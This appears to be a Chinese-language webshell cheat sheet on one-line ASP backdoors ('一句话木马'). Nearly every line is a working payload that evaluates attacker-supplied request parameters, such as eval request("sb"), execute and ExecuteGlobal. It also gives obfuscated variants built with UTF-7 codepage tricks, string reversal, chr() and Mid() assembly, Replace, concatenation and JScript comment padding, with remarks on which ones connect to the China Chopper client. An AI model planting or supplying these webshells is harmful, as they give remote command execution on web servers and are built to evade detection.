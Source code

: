 

# ASP一句话木马


## 标准一句话

```
<%eval request("sb")%>

<%execute request("sb")%>

<%Eval(Request(chr(35)))%>   password:#

<%Eval(((Request(chr(35)))))%> 可以有多对括号

<%ExecuteGlobal request("sb")%>

<%eval request.form("#")%>

<%eval request.item("#")%>

<%eval request("chopper")%>

<%execute request("1")%>


// 单独运行500错误，但是菜刀能连。
<%a=request("1")%><%execute a%>  

// 单独运行不报错，菜刀能连
<%a=request("1")%><%eval a%>

// 单独运行500错误，但是菜刀能连。
<%a=request("1")%><%executeglobal a%>
```


## 利用utf-7编码

密码是#，解密只需要将+k-去掉即可，这里的k可以是任意字符，长度也是随意。

```
<%@codepage=65000%>
<%r+k-es+k-p+k-on+k-se.co+k-d+k-e+k-p+k-age=936:e+k-v+k-a+k-l r+k-e+k-q+k-u+k-e+k-s+k-t("#")%>
```

解密后

```
<%@codepage=65000%>
<%response.codepage=936:eval request("#")%>
```

密码是：c

``` 
<%@codepage=65000%>
<%e+x-v+x-a+x-l(+x-r+x-e+x-q+x-u+x-e+x-s+x-t+x-(+x-+ACI-c+ACI)+x-)+x-%>  
```



## 字符串逆序


StrReverse Replace加密，解密后为：Execute eval request("cmd")

```
<%

Function decode(Code)
	decode=Replace(StrReverse(Code),"/*/","""") 
End Function
Execute decode(")/*/dmc/*/(tseuqer lave")
%> A
```

ASP自带逆序函数

```
<%execute(strreverse(")""xx""(tseuqer lave"))%>
```

## 利用chr ，request

```
<%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("1"))%>
```


## 利用asp的&连接符

```
<% eval""&("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0"&"-"&"2"&"-"&"5"&")"&")") %>
```

## 拆分

```
<% 
xx=request("xx") 
eval xx 
%> 
```

```
<% 
xx=request("xx") 
Rain=xx 
eval Rain 
%>  
```

```
<% 
xx=request("xx") 
Rain=xx 
bb=Rain
if 1=0 then
    response.write("123")
else 
    eval bb 
end if
%> 
```

## 字符串替换(replace函数) 

```
<% 
xxx="e0x0e0c0ut0e(0req0ue0st(""x0x""))" 
xxx=replace(xxx,"0","") 
eval xxx 
%>
```


## chr()连接字符串

```
<%eval(eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("sz"))%>
```

## Mid()连接字符串

基本思路：乱序一个字符串然后反复Mid取字符构成一句话。 

```
<% 
Function d(s)
    d=Mid(love,s,1)
End Function
love="(tqxuesrav l)"&""""
execute(d(6)&d(10)&d(9)&d(12)&d(11)&d(8)&d(6)&d(3)&d(5)&d(6)&d(7)&d(2)&d(1)&d(14)&d(4)&d(4)&d(14)&d(13)) 
%>
```

## 字符连接成字符串 

```
<%eval("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0″&"-"&"2″&"-"&"5″&")"&")")%>   密码-7  
```

## Jscript

```
< %@ Page Language = Jscript %>
< %var/*-/*-*/P/*-/*-*/=/*-/*-*/"e"+"v"+/*-/*-*/
"a"+"l"+"("+"R"+"e"+/*-/*-*/"q"+"u"+"e"/*-/*-*/+"s"+"t"+
"[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]"+
","+"\""+"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"+"\""+")";eval
(/*-/*-*/P/*-/*-*/,/*-/*-*/"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"/*-/*-*/);%> 密码 -7
```

```
< %@ Page Language="Jscript"%>< %eval(Request.Item["shezhang"],"unsafe");%>
```
